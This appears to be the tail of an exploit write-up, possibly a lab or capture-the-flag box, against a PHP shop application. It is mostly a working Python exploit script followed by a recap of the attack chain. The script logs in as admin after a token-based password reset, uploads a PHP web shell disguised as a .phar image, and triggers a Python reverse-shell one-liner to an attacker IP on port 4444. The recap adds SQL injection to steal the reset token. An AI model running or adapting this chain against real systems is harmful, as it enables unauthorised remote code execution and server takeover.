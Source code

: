```python
def login():
    loginUrl = target + "/login/checkLogin.php"
    data = {"username":"admin", "password":"caueob"}
    loginRes = session.post(loginUrl, data = data, headers = header)
    loginSoup = BeautifulSoup(loginRes.text, features = "html.parser")
    if(loginSoup.find("strong").text != "Success!"):
        print("[+] login failed")
        exit()
    else:
        print("[+] Login success! Uploading RCE file...")

def uploadfile():
    fileName = "shell.phar"
    fileContent = "<?php system($_GET['cmd']);?>"
    uploadUrl = target + "/item/updateItem.php"
    f = open(fileName, "w") 
    f.write(fileContent)
    f.close()

    files = {'image': (fileName, open(fileName, "rb"), 'image/jpeg')}
    data = {'id':2, 'id_user':1, 'name':"ALFA WIFI Adapter", "description":"alfa wifi adapter", "price":12}
    
    session.post(uploadUrl, data=data, files = files)

def getShell():
    shellUrl = target + "/item/image/shell.phar?cmd="
    reverseShellPayload = "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ reverseIp  +"\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    shellUrl += reverseShellPayload
    shellRes = session.get(shellUrl)
    print("[+] Check your listening terminal!")

def main():
    resetPassword()
    login()
    uploadfile()
    getShell()
    
main()
```

## Recap of the vuln chain

1. Reset the `admin` password
2. Extract the reset password token via SQL injection in `viewItem.php?id`
3. Use the token to set a new password and login to the admin portal via `/login/doResetPassword.php` , `/login/doChangePassword.php` and `/login/checkLogin.php`
4. Upload a malicious `.phar` file updating an existing item via `/item/updateItem.php`
5. Get a reverse shell via file uploaded at `/item/image/shell.phar?cmd=`
